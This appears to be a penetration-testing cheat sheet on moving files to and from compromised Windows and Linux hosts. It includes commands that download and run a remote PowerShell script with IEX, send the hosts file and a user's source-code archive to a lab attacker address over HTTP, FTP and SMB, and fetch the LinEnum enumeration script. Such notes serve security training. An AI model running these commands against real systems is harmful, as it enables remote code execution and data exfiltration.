 # FTP
---
Download file from FTP server in powershell:
```Powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```

Download file using FTP client:
```cmd
GET file.txt
```

# Upload
---
Upload a file using PSUpload:
```Powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

Base64 encode a file then upload:
```Powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

Upload files using SMB:
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

Upload a file to an FTP server using powershell:
```cmd
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

Upload a file using FTP client:
```cmd
PUT c:\windows\system32\drivers\etc\hosts
```

# Linux File Transfer
---
Download a file using wget:
```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
